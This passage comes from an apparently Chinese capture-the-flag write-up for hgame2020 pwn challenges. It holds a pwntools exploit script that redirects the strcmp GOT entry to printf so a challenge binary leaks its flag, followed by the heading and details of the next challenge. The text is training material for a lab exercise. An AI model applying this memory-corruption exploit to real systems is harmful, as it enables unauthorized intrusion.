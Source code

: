 ```python
else:
host, port = sys.argv[1].split(':')
p = remote(host, port)
libc = ELF(remote_libc)

elf = ELF(local_file)

context.log_level = 'debug'
context.arch = elf.arch

se      = lambda data               :p.send(data) 
sa      = lambda delim,data         :p.sendafter(delim, data)
sl      = lambda data               :p.sendline(data)
sla     = lambda delim,data         :p.sendlineafter(delim, data)
sea     = lambda delim,data         :p.sendafter(delim, data)
rc      = lambda numb=4096          :p.recv(numb)
ru      = lambda delims, drop=True  :p.recvuntil(delims, drop)
uu32    = lambda data               :u32(data.ljust(4, '\0'))
uu64    = lambda data               :u64(data.ljust(8, '\0'))
info_addr = lambda tag, addr        :p.info(tag + ': {:#x}'.format(addr))

def debug(cmd=''):
gdb.attach(p,cmd)

#info
strcmp_got = elf.got['strcmp']

ru('There is a back door..."Hacked by Annevi!"\n')
sl(str(strcmp_got))
sl('\x26') # strcmp_got -> printf_got 
ru('Password:')
sl('%s') # strcmp(password,flag) -> printf("%s",flag)
flag = ru('Wrong Password!\n')

log.info('flag is: ' + flag)

p.interactive()
```



### 形而上的坏死

 - 题目描述：Can you deceive the world？The lonely observer！
 - 题目地址：[Metaphysical_Necrosis](https://cdn.jsdelivr.net/gh/TaQini/ctf@master/hgame2020/pwn/week2_4/Metaphysical_Necrosis)
 - 考察点：视力(官方)
 - 难度：中等
 - 分值：400
 - 完成人数：19

#### 0x0 准备工作

